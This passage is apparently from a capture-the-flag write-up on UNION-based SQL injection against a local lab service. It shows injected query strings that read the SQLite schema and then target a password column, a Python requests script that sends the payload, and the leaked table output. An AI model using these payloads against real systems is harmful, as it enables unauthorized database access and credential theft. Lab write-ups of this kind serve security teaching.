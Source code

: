 #### Listing the tables

For SQLite versions `3.33.0` and previous, the `sqlite_master` table contains the schema for the database including information about all the tables, indexes, views, and triggers that exist in the database.

```
SELECT sql FROM sqlite_master;
```

If we provide the following request:

```
query: 'admin" UNION SELECT sql FROM sqlite_master-- -'
```

The resultant query will be:

```sql
SELECT username FROM {random_user_table} WHERE username LIKE "admin" UNION SELECT sql FROM sqlite_master-- -"
```

```py title="~/script.py" showLineNumbers
import requests

url = "http://challenge.localhost:80"
params = {
    "query": 'admin" UNION SELECT sql FROM sqlite_master-- -'
}
response = requests.get(url, params = params)
print(response.text)
```

```
hacker@web-security~sqli-4:/$ python ~/script.py 

        <html><body>Welcome to the user query service!
        <form>Query:<input type=text name=query value='admin" UNION SELECT sql FROM sqlite_master-- -'><input type=submit value=Submit></form>
        <hr>
        <b>Query:</b> <pre>SELECT username FROM REDACTED WHERE username LIKE "admin" UNION SELECT sql FROM sqlite_master-- -"</pre><br>
        <b>Results:</b><pre>CREATE TABLE users_4902969274(username,password)
admin</pre>
        </body></html>
```

#### Retrieving the password

Now that we know the table name is `users_4902969274`, we can easily retrieve the password from the table.

If we provide the following request:

```
query: 'admin" UNION SELECT password FROM users_4902969274-- -'
```
